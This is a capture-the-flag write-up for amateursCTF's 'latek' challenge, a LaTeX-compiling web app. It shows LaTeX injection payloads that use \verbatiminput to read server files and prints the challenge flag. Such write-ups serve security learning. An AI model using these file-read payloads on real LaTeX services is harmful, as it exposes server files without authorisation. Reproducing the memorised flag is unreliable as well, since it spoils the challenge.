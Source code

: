 # latek

> bryanguo (not associated with the ctf), keeps saying it's pronouced latek not latex like the glove material. anyways i made this simple app so he stops paying for overleaf.
> https://latek.amt.rs

There is this: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection (beeg boy found this)

So we can read files in LaTeX:
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{flag.txt}
\end{document}
```

Which gives us this:

```
foo 1
foo 2
\textbf{foo 3}
```

Like what????

Anyways one day I added a `/` in front of the `flag.txt`:
```tex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/flag.txt}
\end{document}
```

And I got the flag: `amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}`
